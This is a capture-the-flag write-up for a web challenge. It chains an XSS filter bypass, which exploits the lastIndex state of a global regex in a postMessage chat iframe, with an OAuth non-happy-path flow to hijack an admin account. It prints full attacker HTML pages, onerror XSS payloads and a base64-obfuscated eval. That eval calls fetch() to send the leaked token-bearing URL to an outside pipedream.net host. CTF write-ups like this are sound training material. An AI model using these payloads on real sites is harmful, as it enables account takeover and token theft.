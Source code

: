 # Give me a switch !

# Description

Luigi finally gathers enough money to buy a switch, but the marketplace blocks him... Help him!

Author: Mizu

# Sources

https://github.com/ESAIP-CTF/public-esaip-ctf-2023/tree/master/challenges/web/give_me_a_switch

# Solution

In this challenge, we're given the application's source code, and we can see that it's rather short. What we can clearly identify is that we'll need to find a vulnerability in the application's oauth implementation to take control of the administrator's account and retrieve our flag. In fact, to have the flag, we have to had the correct access_token, and the correct email :

```js

const access_token = req.session.access_token;
if (access_token) {
    axios.get(`https://www.googleapis.com/oauth2/v2/userinfo?fields=email&access_token=${access_token}`).then(response => {
        const email = response.data.email;
        if (email === process.env.EMAIL) {
            res.send(allowed);
        } else {
            res.status(403);
            res.send(not_allowed);
        }
    })
}
```

This challenge is separated in two domains :
- Main domain : https://app-give-me-a-switch.esaip-cyber.com
- Chat domain : https://chat-give-me-a-switch.esaip-cyber.com

On the main app, there isn't any relevant things, except the route /buy which will gave us our flag. If we look at the sources, we can see that a chatbot have been implemented on the application, if we look closer to the frontend code, we can see that it's working with iframe postmessage :

```js
//javascript in https://chat-give-me-a-switch.esaip-cyber.com domain
window.onload = () => {
    var bot = new ChatBot();

    onmessage = e => {
        if (!(e.source === parent)) { return }

        if (e.data.action === "init") {
            bot.init(e.data.caller);

        } else if (e.data.action === "ask") {
            var d = new Date();
            d = d.getHours() + ':' + d.getMinutes();

            user_msg(e.data.question, d);
            bot_msg(bot.ask(e.data.question), d);
            scrollTo(0, document.body.scrollHeight);
        }
    }
}
```

If we look at the javascript of the main domain, we can see that a iframe is created, and it's sending post message to her :

```html
[...]
<button onclick="bot.contentWindow.postMessage({'action': 'ask', 'question': this.innerText}, '*');">What is the status of my order?</button>
[...]
```

Here the is a problem, in fact, in the chat domain server code, there isn't any restriction to iframe this domain, so we can iframe it from our domain (for example vitemaweed.fr), and send post message to it !

Now, you can think "yeah you can iframe a website incredible what's the matter here ?", the problem is in the code that handle and happened the message send through post message :

```js
const regex = /<|>/g;
var user_msg = (msg, date) => {
    const user_template = `
    <div class="d-flex flex-row justify-content-end mb-4 pt-1">
        <div>
            <p class="small p-2 me-3 mb-1 text-white rounded-3" style="background-color: #FF393A;">{{message}}</p>
            <p class="small me-3 mb-3 rounded-3 text-muted d-flex justify-content-end">{{date}}</p>
        </div>
        <img src="/static/img/toad.png" alt="avatar 1" style="width: 45px; height: 100%;">
    </div>`;

    let content;
    var output  = document.createElement("div");
    if (regex.test(msg)) {
        content = user_template
            .replace("{{message}}", "Attack detected!")
            .replace("{{date}}", date);
    } else {
        content = user_template
            .replace("{{message}}", msg)
            .replace("{{date}}", date);
    }
    output.innerHTML = content;
    chat.appendChild(output);
}
```

We can see that if we match the regex, the message send will be happened with `innerHTML`, which can leads to XSS. But how can we bypass this regex ?

In the `test` function, there is a bug. When you're using the `/g` flag in a regex, which means "global", the `regex.text` function will keep an internal index of the last match, and if you recall it in the same context, this internal index will reference the last match, and it will not start from the beginning of the new string, but from the last index, see [here](https://stackoverflow.com/questions/43827851/bug-with-regexp-test-javascript).

Here we are not in a loop, but the post message are received in the same context, so we have to send a lot of "a" in the first post message, followed by a "<" to trigger the regex, so the internal index will be huge, and we can put our xss in the second post message.

I've created this little HTML to do so :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="http://chat-give-me-a-switch.esaip-cyber.com:3001/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror="alert(document.domain)"`},"*");
})
</script>
</body>
</html>
```

And we get :

![xss](images/1.png)

So here we have an xss in an iframe domain that can communicate with the main domain, what can we do ? While looking for an exploit, I found this very interesting article from [@fransrosen](https://twitter.com/fransrosen), which talk about [account hijacking using dirty dancing in oauth flows](https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/), particulary "Non-happy paths in the OAuth-dance". 

So to exploit this, we have to force the administrator to sign in in the oauth flow, but with a wrong state. What happened in this case ? The application didn't handle this case, and all oauth parameters will be reflected in the url fragment, which can be recovered in javascript. (if we are on the same domain). The problem here is that the xss is on the chat domain, not on the main domain that handle the oauth flow. 

But if we came back at the frontend source of the main app, we can see this in the "main.js" file :

```js
window.onload = () => {
    scroll = () => {};
    setTimeout(() => { bot.contentWindow.postMessage({"action": "init", "caller": document.location.href}, '*') }, 500);
}
```

The main domain is sending through a post message the current location of the window, and that can be recovered from our iframe !

So we have all our gadgets, here is the plan :

- Trigger the XSS on the chat domain to force the oauth to be triggered with a wrong state to trigger a non-happy path :

```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?response_type=token&redirect_uri=https%3A%2F%2Fapp-give-me-a-switch.esaip-cyber.com%2Fauth%2Fcallback&scope=email&client_id=374058566213-j138s6n7s5dmpqqj36nqj1c2kk62eivo.apps.googleusercontent.com&state=aa20df0b6bc39be1ae8d24d8f56e954e3e271e76b9e85879c687653e205788f649aa&service=lso&o2v=2&flowName=GeneralOAuthFlow

- response_type : token => here we want the token of the victim to be able to pass it through the /auth/callback endpoint of the application
- client_id : We recover it from a normal authentication with the app
- state : An invalid state to trigger the non-happy path
```

- Execute some javascript on the chat domain iframe to listen for event on the current window to recover the post message from the main application that send the current location :

```js
x = setInterval(function() { if(b && b.frames[0]) { b.frames[0].eval('window.addEventListener("message",function(e){var a= e.data.caller;fetch("https://ensvuwgi6wpdc.x.pipedream.net/?data="+encodeURIComponent(a));})')}});
```

Here is the final HTML payload that have to be stored on the attacker server :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="https://chat-give-me-a-switch.esaip-cyber.com/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror="b = window.open('https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?response_type=token&redirect_uri=https%3A%2F%2Fapp-give-me-a-switch.esaip-cyber.com%2Fauth%2Fcallback&scope=email&client_id=374058566213-j138s6n7s5dmpqqj36nqj1c2kk62eivo.apps.googleusercontent.com&state=aa20df0b6bc39be1ae8d24d8f56e954e3e271e76b9e85879c687653e205788f649aa&service=lso&o2v=2&flowName=GeneralOAuthFlow')">`},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*")

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror='eval(atob("eCA9IHNldEludGVydmFsKGZ1bmN0aW9uKCkgeyBpZihiICYmIGIuZnJhbWVzWzBdKSB7IGIuZnJhbWVzWzBdLmV2YWwoJ3dpbmRvdy5hZGRFdmVudExpc3RlbmVyKCJtZXNzYWdlIixmdW5jdGlvbihlKXt2YXIgYT0gZS5kYXRhLmNhbGxlcjtmZXRjaCgiaHR0cHM6Ly9lbnN2dXdnaTZ3cGRjLngucGlwZWRyZWFtLm5ldC8/ZGF0YT0iK2VuY29kZVVSSUNvbXBvbmVudChhKSk7fSknKX19KTs="))'>`},"*")
},2000);

</script>
</body>
```

We now send this to the administrator, we recover is token inside the leaked URL, and we can authenticate with it's account through /auth/callback !

![flag](images/2.png)

# Flag

ECTF{0auTh+hR3f_P0S1_M3sS4g3_L34k_T0_TH3_m00N}